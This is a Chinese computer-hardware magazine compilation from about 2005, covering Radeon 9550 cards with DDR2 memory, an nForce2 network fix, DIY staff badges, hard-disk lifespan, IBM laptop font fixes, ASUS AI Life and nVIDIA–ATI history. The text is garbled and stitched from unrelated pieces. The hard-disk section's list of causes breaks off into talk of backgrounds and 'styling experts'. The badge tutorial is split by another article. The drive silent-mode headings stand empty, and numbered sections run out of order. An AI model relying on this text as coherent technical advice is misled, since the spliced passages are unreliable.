产品介绍：盈通G6043P GT3采用了绿色PCB板，标准公版设计。供电部分用料扎实，采用不少高质量贴片元件。显卡支持SLi技术，显存方面，显卡采用了超频性能更好速度更快的三星2ns GDDR3显存颗粒，容量为128MB，位宽为128bit。有显存知识了解的朋友都知道，2ns GDDR3显存颗粒的工作频率可以达到1000MHz。另外，显卡提供了VGA+DVI+S-Video三种输出接口，可满足多数用户需要。

（天津 王磊）

## DDR2能为镭9550再续辉煌

对于发展速度最快的显示芯片来说，Radeon 9550确实是铸就了一段辉煌，为ATI在中、低端市场打拼下一片大好江山，同时赚进钞票无数。但随着nVIDIA发布的GeForce 6系列中的GeForce 6200标准版、GeForce 6200A和同档次的X300系列、X550等型号产品的不断大批上市，以及价格的不断降低，默认频率下性能较低的标准版Radeon 9550由于上市时间已经较长，价格基本已经到达底线，性价比已经大不如前。但对于ATI来说，现时的中、低端市场并没有更强有力的产品来抗衡nVIDIA系同等级产品的打压，这样ATI在有新的中、低端AGP产品发布前，就只得用Radeon 9550这员沙场老将来维持市场份额。虽然ATI没有变化，但聪明的厂商却使用一切方法来提高人们对于Radeon 9550产品的热情，这样就出现了很多做工好、频率高的超频版本。而拥有先天超频能力的Radeon 9550显示核心也确实有潜力可挖。众所周知，Radeon 9550显示核心其实就是Radeon 9600系列的降频版，而Radeon 9600系列中的XT型号核心频率已达到了500MHz，可Radeon 9550的默认频率只有250MHz，巨大的频率差距为厂商留下了极大的发挥余地，核心频率更高的产品层出不穷，但在显存的配置方面，厂商确实犯难，如果配置高速大容量产品（256MB容量），受制于核心的限制，性能的提升也许不如价格提升的多，会造成性价比更差；而配置低速小容量产品（64MB），一是不符合主流产品规格（显存为128MB以上），二是大马拉小车，高核心频率+低显存频率，反而会拖累显卡的性能表现。而DDR2产品的大降价，给厂商提供了一个为R9550再续辉煌的机会！

什么是DDR2内存技术呢？

所谓的DDR2内存技术是在DDR的基础上发展起来的，是由Intel主推的下一代内存技术规范，在915/925平台上已经实现了对其的支持。相较于DDR内存而言，DDR2最大的特点就是以较低的时钟频率实现较高的数据传输率。通俗的讲，DDR内存会在一个时钟周期的上、下沿同时传送数据，而DDR2采用了“4位预取”技术，将核心频率再减半，这样就会实现在一个时钟周期内传送4次数据（见图1），极大的增加了内存带宽，提高了数据吞吐量，为高外频的CPU（如外频为1066MHz或1200MHz的P4）做好准备。除了“4位预取”技术外，物理特性的改变包括：



- 1. 电压由2.5V降低为1.8V，耗电及发热量均有所降低。
- 2. 封装形式由TSOP封装改变为FBGA形式，提高了电气性能（见图2）。
- 3. 内存容量更大，最高已达单条4GB。
- 4. 频率的提升，DDR发展到400MHz时就遇到了频率瓶颈，而DDR2现在已经推出了900MHz甚至更高频率的成品。
- 5. 延迟加大，但可以用频率弥补。

## 用DDR2搭配R9550的好处是什么呢？

- 1. 相同价格下获得更大容量的本地显存



国际市场的内存价格中，DDR显存颗粒的报价大概是2.3-2.5美元左右，而DDR2的显存颗粒报价大概在2.5-2.9美元之间，这样二者的价差就很小了，甚至可以说基本在同一价位上，对于性能更好的DDR3显存报价则要高出很多。新型的DDR2显存颗粒为16×16规格，单颗32M，正反8颗既可组成256MB、128位的规格，这样会在很大程度上推动显存向256MB的大容量发展。而价位大体相同的情况下，采用DDR显存则只能配置为128MB、128位的规格，虽然对于Radeon 9550的核心而言，这不会带来什么实质的性能提升，但花相同的钱买到更多、更好的东西，我想绝大多数人都会乐意的。并且针对数据密集型运行的时候，大容量的本地显存还是会有一定的性能提升的。

| 项目 | 规格 |
|------|------|
| 双敏火旋风PCX5528XT | 报价：640元 |
| 显卡芯片 | Radeon 9550 |
| 显存类型 | DDR2 |
| 显存容量 | 256MB |
| 显存位宽 | 128bit |
| 总线接口 | AGP 8X |

### 2. 相同价格获得更高的显存频率和超频能力

对于DDR2而言，要实现的就是DDR显存所不能突破的高频率。DDR速度达到400MHz时就遇到了良品率的问题，而DDR2，400MHz只是一个开始，533MHz、667MHz或更高的频率才能真正体现DDR2的高性能、高带宽，即使是在不超频的情况下，已经上市的几款搭配DDR2显存的Radeon 9550，显存频率也都达到了650MHz以上，某些型号甚至达到了800MHz以上。并且由于“4位预取”技术的采用，核心频率仅为总线频率的一半，为传输速率的四分之一，就是说采用的显存速度为800MHz时，核心频率仅为200MHz，较低的核心频率就为超频留下了更大的空间。DDR2的工作电压为1.8V，相对于DDR 2.5/2.6V的工作电压降低了很多，功耗和发热量也同时降低，也有利于超频。

| 项目 | 规格 |
|------|------|
| 盈通镭龙R9596XT 魔兽II代 | 报价：699元 |
| 显卡芯片 | Radeon 9550 |
| 显存类型 | DDR2 |
| 显存容量 | 256MB |
| 显存位宽 | 128bit |
| 总线接口 | AGP 8X |

总体来说，搭配了DDR2显存之后，在大体相同的价格下，最终用户得到了256MB的大容量显存，更高的核心频率与显存频率带来了性能的提升，对比同等级的显卡来说仍然保持着较高的性价比，Radeon 9550再续辉煌的功臣就是DDR2显存了！

### 4. 频率提升带来的最大好处就是性能提升了

Radeon 9550的核心超频能力自然强大，再搭配高频率的DDR2显存之后，性能提升显著，虽然DDR2显存最大的缺点就是延迟较慢，但可以用绝对的高频率来弥补，并且大量的实际测试也表明，同频率下DDR2显存的速度大概比DDR显存慢5~8个百分点，但显存频率的提升就是以倍数计。拿最新上市的一款成品卡来说，显存频率达到了750MHz，而标准版的Radeon 9550频率只有400MHz，相关的测试也表明，除去一定的延迟带来的性能损失外，平均的性能提升也达到了60%-90%，这样的性能大体同GeForce 6200标准版持平或略高一些，而价格方面却低于GeForce 6200标准版一个档次，这样的性价比在中、低端市场无疑是极高的。

| 项目 | 规格 |
|------|------|
| 昂达雷霆9955白金版 | 报价：599元 |
| 显卡芯片 | Radeon 9550 |
| 显存类型 | DDR2 |
| 显存容量 | 256MB |
| 显存位宽 | 128bit |
| 总线接口 | AGP 8X |

### 3. 显存电气性能的提高，更有利于厂商布线

DDR2显存采用了新式的FBGA封装形式，能够增加各模组之间的空气流动，提高可靠性和稳定性，并且由于工作电压的降低，显存供电模块不必做得很复杂就可以获得高稳定性。从已经上市的几款采用DDR2显存的Radeon 9550看，核心及显存的供电部分用料与设计都不是很复杂，相对于采用DDR显存的超频版本简化了很多，但同样可以保证稳定的运行，甚至超频潜力也很大。而简化设计最大的好处就是节省了成本，这样就更增加了在中、低端市场的竞争力，可以说为Radeon 9550注入了新的活力。

| 项目 | 规格 |
|------|------|
| 七彩虹镭风9550-GD2 CT冰封骑士3 | 报价：680元 |
| 显卡芯片 | Radeon 9550 |
| 显存类型 | DDR2 |
| 显存容量 | 256MB |
| 显存位宽 | 128bit |
| 总线接口 | AGP 8X |

## 解决部分nForce2主板不能上网问题

nForce2主板不可谓不经典，nVIDIA也是靠“这一炮”占领了大部分支持AMD CPU的主板市场。但是玉也有瑕疵，nForce2主板多多少少存在一些问题，笔者前段时间就遇到了精英的nForce2主板集成网卡不能上网的问题（格林的GRT1500猫），不过在其他的猫都能正常上网。难道是集成网卡与猫起冲突了？笔者查阅了一些资料，终于找到了解决方法。方法很简单，只要为nForce2集成网卡设置一个MAC地址就可以了。

具体方法：右键点击“我的电脑→属性→硬件→设备管理器→网络适配器→NVIDIA nForce MCP Networking Controller→高级”，将“Network Address”的值从不存在更改为一个六位数字，例如“123355”即可（见图）。



## 工作卡这种专业东东也能DIY！

在公司里，每位员工都有一个“工作卡”，上面写上单位名称、姓名、部门、员工编号，以及一个大头照，然后挂在胸前。前些天突发奇想，自己是不是也可以动手制作一个“工作卡”呢？后来发现，原来实现起来并不困难。当然，前提条件是你要有数码相机和彩色打印机。

### 室内人像拍摄技巧

- 1. 选择拍摄角度
  拍摄角度，是指拍摄点与被摄对象之间的水平线高度的变化关系。在人像摄影中，凡属工作证所用的半身免冠照片，均应以平摄角度和正面构图来拍摄，这样可以使五官端正的脸型得到较好的表现。所谓的平摄角度，是指拍摄点与被摄对象于同一水平线上，以平视的角度来拍摄。平摄角度所构成的画面效果，接近于人们观察事物的视觉习惯，它所形成的透视感比较正常，不会使照片因透视变形而遭到歪曲和损害。
- 2. 光线的利用
  相信大家都清楚，户外光线在大多数情形下都可以拍摄出好照片，问题只是采用光线的手法是不是得当。所谓光角度，包括光源位置，被摄者位置及数码相机位置。
  在室内拍摄时，先让被拍照的人保持摆好的姿势，正对日光灯或自然光等光源。如果光线不足的话，可以采取数码相机内置闪光灯模式。
  中低档数码相机一般都具备三种闪光灯模式，即自动闪光、消除红眼与关闭闪光灯。再高级一点的产品还提供“强制闪光”，甚至“慢速同步闪光”功能。建议大家使用“消除红眼”或“慢速同步闪光”功能。
  不过，在室内拍摄人像时，有一点必须注意：
  在弱光环境拍摄时，使用慢速快门可能会因为拍摄人的手抖动而导致照片模糊。建议大家用相机专用脚架支撑数码相机，以保持稳定。
  使用闪光灯辅助拍摄时，注意拍摄距离应该处于闪光灯的有效覆盖范围之内。中低档数码相机内置的闪光灯覆盖范围有限，用摄影爱好者的话来说，其闪光指数较低（一般在1～9米内），不过已经基本满足普通拍摄需要。
- 3. 取景
  拍摄室内人像时，还要注意背景，初学者拍照时只顾看人，对于背景往往不加注意，事前既不加选择，拍摄时也不予留心。建议大家可以在白色墙壁作为背景，这样可以降低电脑后期处理的难度。
  拍摄时，首先应将数码相机固定在三脚架上，并将数码相机立放，然后调整拍摄距离，拍摄大头照的拍摄距离应近一些，1米左右为佳，接着用数码相机的光学变焦调整变焦范围，直至人像主体位于取景框的中间，再接着调整数码相机的参数（主要是光源、ISO值等），最后就可以按下快门拍摄。
  对于初学者来说，利用“人像模式”的拍摄模式，也是一个很好的选择。以笔者的尼康Coolpix 7900为例，在模式转盘上转到“人像”位置，再按下“MENU”键激活“人像模式”菜单，然后选择“人像近拍”（见图1）。

> **小知识**
> ★消除红眼：“红眼”现象在拍摄人像照片（尤其是比较近的距离、环境较暗）时常会发生。这是由于眼睛视网膜的正常反应引起的。如果你不想让拍摄出来的人或动物的眼睛出现“红眼”，可以利用数码相机的“消除红眼”模式先让闪光灯快速闪烁一次或数次，使人的瞳孔适应之后，再进行主要的闪光与拍摄。
> ★慢速同步闪光：在光线昏暗的环境下拍照时，如果使用闪光灯加较高的快门速度进行拍摄，很容易造成前景主体太亮，甚至是白晃晃的一片，而背景却依旧灰暗，无法辨别细节。而“慢速闪光同步”会延迟数码相机的快门释放速度，以闪光灯照明前景，配合慢速快门（如1/5秒）为弱光背景曝光。这样，就能够拍摄出前后景均得到和谐曝光的照片。

## 硬盘应该怎么用？要性能，还是要寿命？

邻居老黄家的电脑“撞邪”了，半年之内，新买的120GB硬盘已经两次“身负重伤”进厂大修！这是怎么回事？真是当前硬盘质量很差吗？还是使用方法不正确？我们都知道，硬盘是一台电脑中最容易损坏的硬件，并且伴随着硬盘的不幸殒命，一大堆宝贵的数据也会随之烟消云散。那么，硬盘性能与寿命之间究竟有什么联系呢？硬盘的性能与寿命真的是“熊掌”与“鱼”的关系吗？如果真是这样，如何来避免我们的硬盘提前阵亡呢？

## 硬盘性能，如何看待？

随着硬盘全部提升到7200RPM，甚至10000RPM，硬盘的性能确实得到了极大的提升。应该说，从技术层面上来讲，随硬盘主轴电机的不断提速，无疑是极大有益于硬盘性能的不断突破的。然而，不同的应用层面，对于硬盘性能的要求是不同的，那么究竟哪些应用层面，真正依赖于硬盘性能呢？笔者认为，真正需要硬盘性能的应该是网络服务器、文件服务器、图形工作站、高端游戏用机、高速数据记录这些需要频繁进行数据交换的应用，而仅仅是一般的办公处理、数据处理和上网娱乐，对于硬盘性能的要求，其实是并不高的。然而，尽管是前面所谈及的高端应用，也并非只在于片面的追求硬盘性能，在追求性能的同时，这类应用也非常重视数据的安全性，因此，高端应用更多的采用磁盘阵列方式，特别是RAID1、RAID0+1和RAID5这类支持数据镜像的磁盘阵列模式。由此可见，即使是在高端的应用上，也是不敢丝毫忽视硬盘数据安全性的。

## 那么，针对普通的家庭应用来说，自然不太可能组建价格不菲的磁盘阵列，以获得可靠的数据安全性。那么对于普通的家庭用户来说，那唯有尽可能地来延长硬盘的寿命，才是获得数据安全性的重要途径。因而，这里笔者便提出了以性能换取寿命的提法。那理论依据在何处呢？请看下面的分析。

## 是什么在影响硬盘的寿命？

影响硬盘寿命的原因是比较多的，然而，其中最重要的有三个因素：开关电源提供的电流质量太差、硬盘热量控制不当、盘体过热、盘片、背景等等，可以参考一下这里：http://edu.sina.com.cn/focus/zhengj.html，专业的造型专家提出了不少建议。


## 制作工作证

一般来说，可以利用购买打印机时附带的一些工具软件来制作工作证。但考虑到很多人不太容易上手，因此笔者特意制作一个工作证的Word模板（下载地址：http://www.intodigi.com/Soft/Ufle/namecard.doc）。大家只要利用这个模板，并将当中的内容替换一下即可。

## 在添加照片时要注意，你可以先将“员工照片”的图片模式删除，然后插入图片，并将图片环绕方式设置为“浮于文字上方”，接着再调整图片大小，并拖到合适的位置。以此类推，将一个版面内的十张工作证添加/修改好。

## 打印工作证

接下来，我们就要打印工作证了。这个步骤大家以为很简单吧？其实不然。这里以笔者所使用的HP PSC 1350多功能一体机为例：

## 第一步：照片打印纸放入打印机进纸槽，一般是正面（光面）朝下。

## 小提示：适合工作证的打印纸张

- ★光泽照片纸：光泽照片纸最大特点是打印出来的照片表面有一层光泽，并且有传统照片的质感，还有良好的防潮效果，适用于打印一些高质量的照片、唱片封面和报告封面等，是打印照片的首选纸张。
- ★光面相片纸：光面相片纸表面采用的是树脂层，因此呈现出带光泽的亮白色，非常光滑，打印出的色彩鲜艳生动。可以用来打印照片、贺卡和圣诞卡，特别是用于制作家庭或个人影集。
- ★高分辨率纸（厚片相纸）：高分辨率纸的涂层比普通喷墨打印纸要稍厚一些，表面更加平滑，因此打印效果也要好一些，可以使输出的效果几近传统照片品质，当你需要用高品质的彩色输出去创造夺目的图像时，它是极好的选择。代表产品有爱普生的高光喷墨打印纸S041117、佳能的高分辨率纸HR-101、惠普的高级喷墨打印纸51634Y等，常见的尺寸规格有A3和A4两种，这类纸一般应用于厚海报的打印和一些工艺制图上。

## 第二步：在Word当中，选择“文件→打印”，然后选择所使用的打印机型号。

## 第三步：点“属性”按钮，在“纸张/质量”选项卡的“打印任务快速设置”当中选择“专业照片质量打印”，然后在“纸张选项”下选择你所使用的照片打印纸类型（见图2）。最后，按下“确定”按钮即可开始打印。

## 第四步：打印好后，先等打印纸上的墨渍完全干透以后，再用美工刀和尺在玻璃上进行裁切。


## 小提示：对于大头贴的具体制作，在本刊2004年第23期上的《在家也能做贴纸》一文有很详细的方法介绍，有兴趣的读者朋友们可以去查阅。

（斯佳丽）## 硬盘软治 IBM T系列笔记本——排除 Word 在 IBM T 系列笔记本电脑上的显示故障

IBM 笔记本共有 A,R,X,T 四大系列，其中 IBM T 系列是商用笔记本领域的经典产品，深受高级白领人士的喜爱，拥有超强的稳定性。但是笔者在使用 IBM T 系列笔记本的过程中，也发现了它的一个小 BUG，经过分析找到了故障的解决方法。



将笔记本送往 IBM 蓝色快送维修站，经维修人员的检测，得出的结论是显卡没有问题，可能是 Word 软件本身的问题。我于是又将 Word 2002 进行了卸载和重新安装，将 XP 的相关字体进行了重新的安装，但是显示故障依然存在。





经过反复地设置，我找到了解决故障的两种方法：

方法一：在 IBM 笔记本用鼠标右键单击 Windows XP 桌面，选“属性”；在“属性”对话框中选“外观”标签和“效果”按钮；在“效果”对话框中有“使用下列方式使屏幕字体的边缘平滑”的复选框，该复选框用来指定是否平滑大字体的边缘，以使屏幕字体更容易辨认，将复选框去掉后 Word 字体就可以正常显示。

方法二：鼠标右键单击桌面弹出菜单后选择“属性→外观→效果”，在界面中选中“使用下列方式使屏幕字体的边缘平滑”的复选框，对于屏幕字体有两个选项：“标准”或“清晰”，你选择“清晰”选项也可以使 Word 显示正常。经查微软的技术资料得知，在 Windows XP 中，对于桌面台式机监视器，选“标准”则会正常显示，对于大多数膝上型笔记本的监视器，选“清晰”会使屏幕字体显示正常（见图 3）。

我将我发现的 IBM 笔记本的显示 BUG 通过 IBM 800-810-1818 热线，向 IBM 作了反映，不长的时间，联想-IBM 向我回复，证实我发现的 BUG 在上述两款机器中是存在的。联想-IBM 给出的解决方法就是我发现的方法一，我的解决办法比他们还多一种。看来，我们对大品牌也不能绝对迷信。

- 笔记本自带英文系统修复中文程序乱码
- 彻底解决 S31 的 USB 启动问题
- 对 Thinkpad 电池保养的探讨
- IBM 笔记本随机软件功能详解
- 三星笔记本随机软件详解
- SONY 笔记本随机软件详解

### 1. 三星硬盘“静音”模式的开启

### 2. 日立硬盘“静音”模式的开启







在设置 AAM MODE 模式下面一共有三个设置值可选，更改不同的设置值请移动光标到 AAM MODE 项，再按回车键更改（见图2）。

AAM MODE 设置值说明：

DISABLE:禁用 AAM 功能，此时硬盘寻道时间最快，此时硬盘性能最好，但噪声也最大。

FAST:启用 AAM 功能，此时硬盘进入快速寻道模式，硬盘噪声适中。

QUIET:启用 AAM 功能，此时硬盘噪声最小。这里我们选择 QUIET，在设置完毕后，把光标移动到 PROCESS 项，按回车键，稍等一会儿就会出现设置完成的信息。至此，三星硬盘已经处于静音模式，你可以明显感觉到噪声和热量已经双双下降了。

我们可以移动光标到 “Quiet”(128) 一端，从而获得最低的噪声等级，以便使硬盘在工作时，能以最低的工作噪声和最低温度运行。在设置好噪声等级之后，务必以 “OK” 来确定我们的设置。

编者：作为一台电脑绝大部分主要部件的支撑平台，主板扮演的角色似乎已经注定，性能、稳定性、兼容性，没有什么比这些更重要。厂家们拼了命地努力就是为了支持更新的CPU、更新的显示卡、更新的内存、更新的硬盘，甚至更新的USB接口。然而，在性能的追逐中，功能性和易用性却渐渐被人遗忘，并且似乎被遗忘地合情合理，谁让主板天生就是一个平时看不见摸不着，默默呆在机箱里面的家伙呢。不过，今天我们就来看看，主板除了支持更新的CPU、显示卡、内存、硬盘以外，还能做些什么！

## 让主板更聪明 AI Life技术初探

随着含有最新AI Life技术的华硕高端主板推出，长久以来只伴随芯片组而起伏的主板领域总算是有了一些新的波澜。此次华硕发布的AI Life技术包含了:Stack Cool 2, 无噪音无风扇散热方式；WiFi-TV, 神奇结合电视、收音与无线网卡；SATA on the Go, 时尚外接式高速硬盘接口；AI Quiet, 快捷静音设置功能等四个大的模块。我们先来看看它们的真面目。

Stack Cool 2是华硕研发的第二代主板非常冷却技术。Stack Cool 2是在第一代的基础上发展而来，在整个主板的背部覆盖一层散热PCB材料，有效导热。由于采用了无风扇的设计，在散热的同时则避免了使用风扇而带来的噪声，也不用担心时间长了风扇损坏导致的散热效果下降(见图1)。



WiFi-TV是随主板附带的一块插卡，它可不是简单的一块电视卡，除了接收电视和收音以外，还支持Wi-Fi无线网络。通过它，可以很轻松地实现台式机与迅驰笔记本电脑的无线连接，支持的规格包括了目前主要的IEEE 802.11a/b/g 三种无线网络标准(见图2)。



AI Quiet是一个为降低电脑工作噪音而生的技术。原理其实很简单，在一定范围内提供风扇转速和CPU工作状态的调整，从而控制噪音，使得CPU性能、温度、噪音三者得到有效平衡。试想一下，在我们观看影碟或是享受音乐的时候，散热风扇的呼呼作响是不是多少有些煞风景？而真正看影碟、听音乐的时候，CPU恰恰不是在满负荷工作，这时候可以通过AI Quiet来适当降低CPU工作频率，同时降低散热风扇的转速，噪声自然就变小了。这个设计可以说是没有很高的技术含量，但是有着极好的人性化风格。

SATA on the Go我们则可以理解为一个更为强大高效的USB接口，当然，它并不像真正的USB接口那样可以随处使用，但是只要支持SATA外接接口的移动硬盘，都可以连接到支持SATA on the Go的系统上。对我们大家而言，SATA on the Go有两大特点是非常有吸引力的，其一是像USB接口一样支持热插拔，其二是有着最大2Gb/s的传输速度，理论上比USB2.0高出将近5倍(见图3)。


在了解了AI Life几大模块的功能过后，本刊记者还专门就一些细节上的问题对华硕公司主机板事业部副总经理谢明杰先生以及中国业务事业群产品中心产品总监王俊人先生进行了专访，把一些读者朋友们可能会感兴趣的话题逐一进行了询问。

CFAN:在AI Life技术中WiFi-TV卡扮演的角色蛮重要的。这个卡会不会单独推出来卖，或者是为以前的用户提供一个优惠的升级服务？

ASUS:如果这个卡所具有的功能大家都可以接受的话，我们当然有计划会单独推出来卖。对于是否会集中到主板里，我们其实在考虑，由于主板的面积有限，所以目前尚未将此功能整合到单一主板的计划。另外，因为WiFi-TV卡是一个通用的规格，所以我们可以在其他的主板上做。

CFAN:AI Life现在用在高端主板上，而国内大部分的家庭用户对于945/955主板目前的价格可能不太容易接受，那么它什么时候可以真正地走进普通的家庭里呢？

ASUS:这是一个很好的问题，目前我们有些功能，比如说Hyper Path 3和Stack Cool 2确实是只应用在945/955这样的高端主板上。但是总的来说华硕的AI Life技术是一个通用的设计，并不是说普通用户不能享受到。因为对于承载这个技术的主板来说，它的价格跟销售量之间的联系是非常紧密，如果华硕的945/955主板可以销售到某一个数量的话，我相信它的价格会相对降低，用户的接受程度也自然地提高了，那么也就可以享受到华硕完整的AI Life技术了。我们可以回忆一下，当初我们将第一代AI技术放在865主板上以及第二代AI技术放在915芯片组主板上，由于它们都是新技术，新产品，所以价格相比来说会很高。但是随着销售量的增加，865主板和915主板慢慢普及，AI技术也随之普及，它的价格自然也就降低了。

CFAN:Stack Cool 2实际上采用的是被动散热的方式，但是被动散热的效果毕竟是有限的，选择这样的方式又增加了主板的成本。华硕应用这样的技术，是从哪方面考虑的？

ASUS:对于这个方面，我想应该说是有失有得。当然主动散热式也是一个方式，只是它产生的第一个问题就是寿命的问题；第二个是噪声问题，第三个是能源问题。被动式的散热，它的效果可能不如主动式的那么高，不过它们有了主动式所不能达到的优势。如果想要一个既安静又不影响系统性能发挥的使用环境，Stack Cool 2技术还是非常值得我们考虑使用的。

CFAN:SATA on the Go这个功能它采用的接口是专用的吗？AI Life技术是定位在家庭用户上，在这样的情况下，用户在进行数据交换的时候，可以跟其他的硬盘接口通用吗？

ASUS:这个功能的接口是专用的。我之所以说它是专用的，就在于它不能跟类似于USB这样的存储设备的数据线共用，属于不同的接口类型。但是它是业界的另外一个标准，对于符合这个标准的接口类型的设备，是可以通用的。

(Dali)

## nVIDIA vs ATI 跨世纪的显卡之王宿命对决

七月，ATI终于发布了“CrossFire”显卡加速技术，而ATI的最新一代显示核心r520也接近完成，这标志着在nVIDIA通过SLI技术以及G70显示核心领先显卡发展技术较长时间后，两位显卡巨头的竞争还将继续，而我们也来回忆一下两家显卡厂商的发展历史。

### 3D显卡发展的史前时代

1985年，华裔工程师何国源先生联合两位华裔同胞，共同创立了ATI(Array Technology Industry)公司，公司建立之初就定位于设计图形芯片，历史就是这样有趣，20年后这家公司成为了顶尖的图形芯片设计公司。与ATI相比，nVIDIA公司的历史则短得多，同样是华裔的黄仁勋先生与合作伙伴于1993年建立了nVIDIA公司。nVIDIA公司在建立之时就看中了显卡的3D发展方向，首先推出的NV1核心就提供了在当时相当超前的3D技术，同时，这块核心还集成了同样先进的音频处理能力。但当时的PC还处在DOS时代，在3D处理能力上没有通用的标准，NV1在获得技术上成功后市场并没有获得突破，不过也因为NV1技术上的成功，让世嘉(Sega)公司看上了nVIDIA的技术能力，投资600万美元与nVIDIA共同开发NV2芯片，但由于两家公司在此芯片设计方向上出现了分歧，最终世嘉公司放弃了NV2芯片，而NV2芯片本身也由于设计不成熟，胎死腹中，但世嘉投入的资金则成了nVIDIA发展的重要动力。在这个阶段，还没人能看到nVIDIA的成功，而与nVIDIA几乎同时建立的3DFx公司，则用独立3D加速卡的方式，将大量用户带入了3D娱乐时代。与此同时，ATI也已经是一个相当有规模的图形公司了，虽然此时图形芯片厂商群雄并起，但ATI显示卡优异的多媒体性能赢得了大量OEM订单。

而在此时，整个PC行业遇到了转折性的事件—Windows 95图形操作系统正式推出。在Windows 95推出的同时，微软还定义了DirectX系列多媒体接口方案，其中就包括了3D接口标准一Direct3D，与此同时，Intel定义的专用图形处理接口（AGP）也随后推出，nVIDIA的转机来到。

### nVIDIA 异军突起

NV1/NV2的挫折让nVIDIA意识到，在自己还没有成为通行标准前，必须跟随通行标准才能成功地发展，而当时的3D标准分别是应用于专业图形设计的OpenGL、3DFx自家的Glide和微软刚推出、还不够完善的Direct3D。nVIDIA选择了设计完全匹配Direct3D的图形芯片，这就是市场上大获成功的Riva 128芯片。Riva 128推出后，在各种基于Direct3D的测试上表现出非凡的实力，已与当时号称3D游戏之王的3DFx Voodoo不相上下，而由于微软的大力推动，Direct3D很快就成为Windows下3D游戏大量选择的图形加速方式，Riva 128和nVIDIA也在大量老牌图形芯片设计生产厂商中异军突起，受到广泛关注。在同一时代，nVIDIA后来最大的对手ATI虽然也设计了Rage 128这款当时不错的3D加速芯片，但ATI更醉心于多媒体设计，而成功的设计也使自那时就有的All in Wonder系列多媒体显卡到现在也是大量多媒体处理用户的首选。

自Riva 128芯片成功后，nVIDIA开始了迈向3D加速之王的步伐：1998年三月推出TNT显卡，性能胜过单块Voodoo2 3D加速卡，1999年推出TNT2 Ultra显卡，性能胜过3DFx刚刚推出的VooDoo3 3500显卡，功能也大大强于VooDoo3 3500，nVIDIA取代3Dfx成为3D加速卡之王。

### 风云突变，微软推波助澜

前面我们提到nVIDIA跟随Direct3D标准，并获得了很大成功，而当微软在开发DirectX9接口时，也许觉得nVIDIA太强了，转而与ATI进行了大量合作，最终改变了显卡市场的格局。ATI领先于竞争对手，甚至领先DirectX9发布推出首款支持DirectX9的显示核心R300，并同时推出了采用此款核心的Radeon 9500/9500PRO/9700/9700PRO显卡。尽管这些显卡在推出时并没有DirectX9支持，但在DirectX8上的表现也远远优于nVIDIA当时的最强显卡GeForce 4 Ti4600，为此，nVIDIA不得不加速同样支持DirectX9的NV30核心的研制。而当微软正式推出DirectX9时，nVIDIA才猛然发现，ATI的R300核心完全是为DirectX9量身定做的，而自己的NV30核心的一些最重要特点在DirectX9上毫无用处，反而会导致性能大大下降，但此时，重新更改芯片设计已经来不及了，nVIDIA依然推出了NV30核心以及相应的GeForce FX5800系列显卡，但这是nVIDIA首次推出性能不如竞争对手的产品。而且，由于nVIDIA的下一代核心NV35与NV30属于完全继承的关系，导致使用NV35核心的GeForceFX5900系列显卡同样被Radeon 9700系列的继承者Radeon9800压制，甚至出现GeForceFX5900在DirectX9专用测试软件3D Mark 2005中分数只有Radeon9800一半的情况。而ATI也借DirectX9的东风，抢占了nVIDIA的大量市场，市场占有率终于能和nVIDIA分庭抗礼。

### 王者之剑终露锋芒

由于NV3X系列核心的失败，nVIDIA不得不再次认识到与业界老大合作的重要性，为此，nVIDIA在研制重量级反击武器NV40的同时，也与微软进行大量合作，让自己的新武器完全满足DirectX9的重要改进版DirectX9C的需求，同时，还要利用新一代显示接口PCI-E X16，将性能之王夺回来。

在经历NV3X系列的卧薪尝胆后，全面为DirectX9C定制的NV4X系列显示核心终于按时推出，而其中的王者，采用NV40核心的GeForce6 Ultra也终于胜过ATI新推出的旗舰显卡X800XT，尽管这种胜负在毫厘之间，但nVIDIA终于松了一口气，因为，在即将到来的PCI-E接口时代，nVIDIA为自己的NV4X显示核心留下了一个杀手锏，这能保证自己的显卡性能在较长时间内领先对手，这就是SLI！

由于新一代系统总线PCI-E的可扩展性，让基于这种总线的显卡接口PCI-E X16也能灵活多变，基于这种结构，nVIDIA将一条PCI-E X16接口分为两条PCI-E X8接口，让系统同时使用两块显卡并行工作，可让系统的显示性能提高接近一倍，这就是SLI技术的实质。在nVIDIA正式推出自己的nForce 4 SLI芯片组后，nVIDIA的SLI技术也正式出现在大众面前，尽管早期SLI实现的方式相当苛刻：需要两块同样的显卡，最好是同一批次，并且只能使用于采用nForce 4 SLI芯片组的主板，而且需要对大量游戏进行专门优化，还需要在高分辨率下，才能体现SLI的优势。但这已经不能改变SLI的成功一在长时间内，要想体验最高的3D娱乐效果，一定只有选择两块GeForce 6800Ultra组成SLI。SLI的推出的确打了ATI一个措手不及，但ATI很快开始组织反击，并提出了CrossFire(交叉火力)技术，这也同样是基于双显卡并行运行，提升系统显示性能的技术。CrossFire虽然比SLI更晚推出，没有时间的优势，但也能更瞄准对手的技术弱点，用强大的火力进行反击。与SLI相比CrossFire更加灵活，首先SLI必须两块同样的显卡，而CrossFire则只需要一块有专用芯片的CrossFire主卡和一块支持CrossFire的副卡，不要求两块卡的生产厂、频率、渲染流水线一致，这样用户可以在先购买一块显卡，等有充足资金时再购买另一块以组成CrossFire。面对CrossFire的这些优势，nVIDIA也有解决方案，就是通过驱动程序优化，降低组建SLI的要求，目前组建SLI只需要同种芯片型号的显卡，但依然不如CrossFire灵活。不过，SLI以及NV4X系列的成功为nVIDIA赢得了大量时间，使nVIDIA先于ATI推出了新一代高端显示核心G70，G70以单块显卡提供相当于GeForce 6800Ultra SLI的性能，并还能再组建超强的SLI的终极性能成为了新一代民用显卡之王，而ATI也在加速研制自己的新一代R520核心，希望重新夺过性能之王的大旗，两个显示核心厂商的战斗还将继续。

## 软硬兼施，让喷头不再堵塞

打印机越来越便宜，用的人也越来越多，在使用的过程中，我们往往不会死板地按照使用指南来操作，也正因为如此，无论是哪一款打印机，或多或少都会出现一个共同的问题，那就是喷头堵塞。

大部分家庭用户因为打印的东西少，一般都不开打印机，只在需要的时候才开机。表面上看起来这样有一个好处，就是可以省墨，但如果长时间的不开打印机，尽管打印机的喷嘴部分有保护盖保护，但是因为墨水是溶剂型的，挥发性强，喷嘴内的墨水的溶剂会慢慢挥发掉，剩余的墨附着在管壁上或聚集成块，最后导致喷头堵塞。

